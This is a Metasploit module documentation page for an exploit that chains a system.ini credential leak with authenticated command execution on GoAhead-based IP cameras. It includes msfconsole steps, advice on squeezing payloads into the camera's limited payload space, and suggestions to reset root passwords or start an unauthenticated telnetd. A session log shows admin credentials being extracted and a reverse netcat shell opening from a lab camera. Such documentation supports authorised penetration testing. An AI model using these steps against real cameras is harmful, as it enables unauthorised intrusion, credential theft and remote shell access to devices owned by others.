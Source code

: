 ## Vulnerable Application
  This module exploits an authenticated remote code execution in various branded IP cameras based on the same chinese OEM model.
  Those cameras are also vulnerable to a badly implemented check on `system.ini` file within the embedded GoAhead web server.
  By combining the two vulnerabilities, it is possible to achieve code execution without prior knowledge of any credentials.
  [1250+ Cameras models](https://web.archive.org/web/20170308122943/https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html) have been found vulnerable so far.
  While the credential leak is pretty reliable, a smaller subset of those cameras have netcat available.
  Others have a smaller payload size or tend to mangle some characters on longer strings.
  Using a generic command payload to start telnetd or change root password may be more suitable in those cases.

## Verification Steps
  1. Start msfconsole
  2. Do: `use exploit/linux/http/ipcam_rce_with_creds_leak`
  3. Do: `set rhost`
  4. Do: `set rport`
  5. Do: `set payload`
  6. Do: `set lhost`
  7. Do: `exploit`

## Options
  **PAYLOAD**

  The `generic` and `netcat-e` payload types are valid. If the netcat-e does not provide a shell this surely means that nc binary is not provided within the firmware
  or the nc symlink to busybox is not present.
  In that case use a generic command to change the root password, spawn a new unauthenticated telnetd daemon or anything else.

  Payload space is a real issue to deal with. The payload space is in theory 60 chars. when calling set_ftp.cgi the payload will be handled directly by the
  GoAhead server binary named 'encoder' on most models. Depending on the model the payload can be mangled when non word characters are used and/or size is above some threshold.
  A good compromise is to use a payload space of 45 which seems to works correctly on several models tested. It is possible to verify if the payload has been mangled
  by downloading system.ini again after execution attempt (set GATHER_CREDS_ONLY true) and manually analyzing it. The payload should be fully located in the binary file.


  **GATHER_CREDS_ONLY**

  Use this options to only download `system.ini` and extract credentials without attempting code execution.

  **USERNAME**

  Use a predifined username for code execution by skipping credential leak attempt

  **PASSWORD**

  Use a predifined password when USERNAME is set

## Scenarios
```
  Model tested : Vstarcam c7824wip
  Firmware Version : 48.50.72.77

  msf exploit(ipcam_rce_with_creds_leak) > set VERBOSE true
  VERBOSE => true
  msf exploit(ipcam_rce_with_creds_leak) > set RHOST 192.168.1.66
  RHOST => 192.168.1.66
  msf exploit(ipcam_rce_with_creds_leak) > set RPORT 81
  RPORT => 81
  msf exploit(ipcam_rce_with_creds_leak) > set PAYLOAD cmd/unix/reverse_netcat_gaping
  PAYLOAD => cmd/unix/reverse_netcat_gaping
  msf exploit(ipcam_rce_with_creds_leak) > set LHOST 192.168.1.1
  LHOST => 192.168.1.1
  msf exploit(ipcam_rce_with_creds_leak) > check

  [*] Sending check
  [+] Camera likely vulnerable: Correct header sent by the camera
  [+] 192.168.1.66:81 The target is vulnerable.
  msf exploit(ipcam_rce_with_creds_leak) > exploit

  [*] Started reverse TCP handler on 192.168.1.1:4444
  [*] Trying to download system.ini
  [*] 192.168.1.66:81 - Credentials saved in: /root/.msf4/loot/20170512095335_default_192.168.1.66_system.ini_421085.ini
  [*] Trying to extract credentials
  [+] Found 1 possible credentials
  [+] login: admin / password: test
  [!] No active DB -- Credential data will not be saved!
  [*] Trying to trigger code execution with credentials: login: admin / password: test
  [*] Command shell session 2 opened (192.168.1.1:4444 -> 192.168.1.66:32412) at 2017-05-12 09:53:35 -0400
```
